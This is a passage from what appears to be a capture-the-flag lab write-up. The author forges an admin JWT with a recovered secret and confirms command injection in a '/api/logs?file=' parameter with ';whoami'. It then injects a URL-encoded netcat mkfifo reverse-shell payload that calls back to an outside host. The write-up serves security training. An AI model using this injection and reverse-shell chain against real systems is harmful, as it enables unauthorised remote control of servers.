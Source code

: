 
Now I can forge the JWT token, this time with the real `TOKEN_SECRET`.

![jwtlegit](img/jwtlegit.png)

and now login with it
```
curl -X GET -H 'Content-Type: application/json' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjNmMDE2NDA4MGE4MjA0NWFiNWVjZjMiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRlc3R1c2VyQGRhc2l0aC53b3JrcyIsImlhdCI6MTY0ODI5NjM4M30.7XoBvpYsxSS4z1nQzHgCmkzGWn5quqV1orfQEPJ9038' -i 'http://10.10.11.120/api/priv'
```

I am now authenticated as the admin! 
 `{"creds":{"role":"admin","username":"theadmin","desc":"welcome back admin"}}`

I have to find a way to make use of this, in order to get a reverse shell. I will test if the `/logs` is vulnerable to command injection, adding a simple `whoami` command after the `;`.
```
curl -X GET -H 'Content-Type: application/json' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjNmMDE2NDA4MGE4MjA0NWFiNWVjZjMiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRlc3R1c2VyQGRhc2l0aC53b3JrcyIsImlhdCI6MTY0ODI5NjM4M30.7XoBvpYsxSS4z1nQzHgCmkzGWn5quqV1orfQEPJ9038' -i 'http://10.10.11.120/api/logs?file=;whoami'
```

and response is `"80bf34c fixed typos 🎉\n0c75212 now we can view logs from server 😃\nab3e953 Added the codes\ndasith\n"`. The *"dasith"* in the end of the response is probably the username, so this is indeed vulnerable. Now, let's try to inject a URL encoded Netcat reverse shell payload.

```
curl -X GET -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjNmMDE2NDA4MGE4MjA0NWFiNWVjZjMiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRlc3R1c2VyQGRhc2l0aC53b3JrcyIsImlhdCI6MTY0ODI5NjM4M30.7XoBvpYsxSS4z1nQzHgCmkzGWn5quqV1orfQEPJ9038' -i 'http://10.10.11.120/api/logs?file=;rm%20-f%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.14.74%204242%20%3E%2Ftmp%2Ff'
```
